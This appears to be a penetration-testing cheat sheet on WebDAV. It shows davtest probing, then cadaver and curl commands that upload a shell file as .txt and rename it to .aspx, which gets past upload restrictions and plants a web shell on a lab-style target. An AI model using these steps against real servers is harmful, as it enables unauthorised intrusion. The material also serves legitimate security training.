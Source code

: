 ## WebDAV

### Test capabilities

The test will let you know about any file restrictions.  If you encounter any, upload a different file type that's allowed and then just rename it 🤷🏻‍♂️

```bash
davtest -cleanup -url http://10.10.10.11
```

### Transfer Files w/ Cadaver

```bash
# Interact with site (opens sub-prompt)
cadaver http://10.10.10.11
## upload file
put file.txt
## Move/Rename a file
move source.txt destination.aspx
```

### Transfer Files w/ Curl

```bash
# Upload a file
curl -X PUT http://10.10.10.15/shell.txt -d @shell.aspx 

# Options
http://10.10.10.15/file.txt  # Destination to transfer to
@shell.aspx # Source file to transfer with @ in front of it
```

```bash
# Move/Rename a file
curl -X MOVE -H 'Destination:http://10.10.10.15/shell.aspx' http://10.10.10.15/shell.txt

# Options
-H 'Destination:http://10.10.10.15/shell.aspx' # Destination
http://10.10.10.15/shell.txt # Source
```



